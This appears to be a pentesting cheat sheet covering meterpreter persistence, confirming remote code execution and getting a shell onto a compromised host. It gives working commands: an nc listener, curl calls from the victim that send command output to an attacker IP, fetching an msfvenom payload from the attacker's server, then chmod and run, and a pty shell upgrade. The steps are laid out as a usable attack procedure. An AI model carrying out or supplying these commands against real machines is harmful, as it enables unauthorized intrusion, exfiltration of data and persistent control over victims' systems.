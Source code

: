 This command built into meterpreter will: 
- build persistent script agent
- move agent into a WINDOWS directory
- execute the agent
- install autorun into registry

---
---

## Validate RCE
Easy way of validating RCE from a cmd shell upload for example can be done with `nc`  

On attacker machine start a nc listener on any port (53 to not be blocked by WAFs is best)  
`nc -lvnp 53`  

Then on the potentially compromised machine just execute a curl command back to you with a system command as shown below:  
`curl {ip}:53/'whoami'`

- If RCE is valid, the `nc` listener will show `GET /www-data` among the header information

- If command includes spaces in the output -e.g. id, base64 encode the cmd:  
`curl {ip}:53/'id' | base64`
    - This will show `GET /{base64 string}` in the `nc` listener, which you can then run against `base64 -d` to get the original output

### Download file on victim
Also pay want to get a file onto the victim, which can be done through python's `http.server` module. 

1. Start python server on your machine:  
`python3 -m http.server {port}`
2. Use [msfvenom](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/) to create a shell if you don't already have one suitable for your target
3. Curl shell onto victim:
`curl {ip}:53/{file} -o {dir/file}`  
4. Set the file to be executable  
`chmod +x file`  
5. Run the file  
`./file` 
6. Establish full interactive shell  
`python -c 'import pty;pty.spawn("/bin/bash");'`  
`ctrl+z`  
`stty raw -echo`  
`fg`  
`export TERM=xterm`
7. Profit

